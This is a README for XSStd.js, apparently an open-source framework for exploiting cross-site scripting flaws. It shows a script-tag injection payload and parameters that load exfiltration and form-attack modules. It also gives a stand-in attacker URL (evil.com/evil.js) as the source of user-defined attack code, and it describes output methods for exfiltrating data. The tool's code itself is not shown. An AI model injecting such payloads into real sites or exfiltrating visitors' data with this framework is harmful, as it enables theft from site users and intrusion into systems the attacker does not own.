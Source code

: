 XSStd.js
=========

XSStd.js is a modular JS framework for exploiting XSS vulnerabilities.

Injecting the XSStd.js file automatically includes three handy JS classes — jQuery, underscore, and backbone. Additionally, you can pass in desired "modules" to accomplish specific tasks, along with a path to a user-definted JS file where you give XSStd.js (and requested modules) parameters necessary to carry out attacks.

____
Usage
---------

Injection:

```javascript
<script src="http://path.to/xsstd.js?m=&u="></script>
```

Parameters:
* **m**: Pipe-delimited list of modules to load upon initial execution. ex: socket.exfil|form
* **u**: URL to user-defined JS. ex: http://evil.com/evil.js
____
Structures
--------
* **Attacks** – Various categories of actions you can perform.
* **Outputs** – Various methods for exfiltrating data.

____
'ready'
--------

XSStd.js fires a 'ready' event when all external modules/scripts are finished loading:

```javascript
xsstd.on('ready', function(){
	// ready to go!
	// the main XSStd.js object can be referenced by using '_x' 
});
```
____
**If you have any questions, find me on [twitter]**


[twitter]:http://twitter.com/evanbooth
